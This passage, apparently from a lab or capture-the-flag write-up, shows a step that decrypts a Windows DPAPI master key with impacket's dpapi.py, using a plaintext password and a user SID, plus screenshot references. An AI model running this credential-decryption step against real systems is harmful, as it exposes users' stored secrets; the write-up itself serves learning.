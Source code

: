 Now the files have been copied successfully:
![File copy Success](/assets/coppiedsuccess.png)

3. Decrypt the master key:
```bash
python3 /usr/share/doc/python3-impacket/examples/dpapi.py masterkey -f masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```

![Master Key Decryption](/assets/decryptmasterkey.png)
